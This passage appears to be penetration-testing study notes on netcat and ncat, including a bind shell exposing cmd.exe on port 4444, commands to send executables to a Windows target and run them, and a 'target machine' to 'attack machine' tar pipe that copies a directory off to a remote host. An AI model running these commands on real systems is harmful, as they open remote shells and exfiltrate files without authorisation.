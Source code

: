 ```powershell
nc -nlvp 4444 -e cmd.exe
```
### Remote Administration
Alot of machines do not support -e option for obvious security reasons
```
-e bash
-e cmd.exe
```
##### Kali linux and general -e explainations:
```{toogle}
Kali linux has nc compiled with the flag:
`-DGAPING_SECURITY_HOLE` and enabled -e option unlike MOST modern Linux/BSD system DON'T SUPPORT -e; WHY?
-e Option can redirect 
       the input, output, 
               and error messages of an 
                   executable to a TCP/UDP port rather than the default console.
```
Receive files with nc and redirect output to file
```powershell
nc -lvnp port > incoming.exe
C:\Users\offsec> incoming.exe -h
```

Transfer files to windows
```bash
locate wget.exe
nc -nv 10.11.0.22 4444 < /usr/share/windows-resources/binaries/wget.exe
```

## Ncat
[Ncat](https://nmap.org/ncat/) is a feature-packed networking utility which reads and writes data across networks from the command line.
```
  .       .       
  \`-"'"-'/       
   } 6 6 {        
  ==. Y ,==       
    /^^^\  .      
   /     \  )     
  (  )-(  )/     _
  -""---""---   / 
 /   Ncat    \_/  
(     ____        
 \_.=|____E
 
```

#### File transfers
Target machine
```bash
tar cf - . | nc $IP $PORT
```
Attack machine
```bash
ncat -nlvp $PORT | tar xf -
```
